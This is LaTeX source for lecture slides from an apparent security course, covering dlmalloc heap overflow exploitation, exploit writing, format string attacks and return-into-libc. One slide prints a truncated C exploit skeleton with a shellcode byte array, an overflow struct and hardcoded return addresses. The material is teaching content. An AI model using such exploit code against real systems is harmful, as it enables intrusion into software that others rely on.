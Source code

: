 \documentclass[slidestop,compress,mathserif, xcolor=table]{beamer}
\begin{document}
\begin{frame}
  \frametitle{Heap buffer overflow exploits (using dlmalloc)}

  See ``A Memory Allocator'' (\cite{lea1996}).

  You will find the source code for Doug Lea's memory allocator in malloc.c in
  todays exercises.\\[1em]

  Memory allocators must find a balance between speed and resilience to
  errors. Speedy allocators are good for us.\\[1em]

  A memory allocator must have some internal data structure to keep track of
  allocated memory. If we can tamper with this data structure we might be able
  to get the allocator to help us.\\[1em]

  I will not give a recipe for exploiting dlmalloc. Look at the source code,
  it's nicely documented.
\end{frame}

\begin{frame}[fragile]
  \frametitle{Writing exploits}

  Write self-documenting maintainable code.

\tiny
\begin{verbatim}
#include <stdint.h>
...

unsigned char shellcode[] = {0x6A, 0x0E, 0x5A, ...};
struct {
  unsigned char buf[64];
  uint32_t ebp;
  uint32_t ret0;
  uint32_t esi;
  uint32_t ret1;
  char nul;
} __attribute__((packed)) overflow;

memset(&overflow, 'A', sizeof(overflow));
memcpy(overflow.buf, shellcode, sizeof(shellcode));
overflow.ret0 = 0x08048526;
overflow.ret1 = 0x080486D7;
overflow.nul = '\0';
...
\end{verbatim}
\end{frame}

\begin{frame}
  \frametitle{Other stuff}

  See \cite{erickson2008, koziol2004}.

  \begin{itemize}
  \item Format string exploits.
  \item Returning into libc (and libc chaining).
  \end{itemize}
\end{frame}
\end{document}
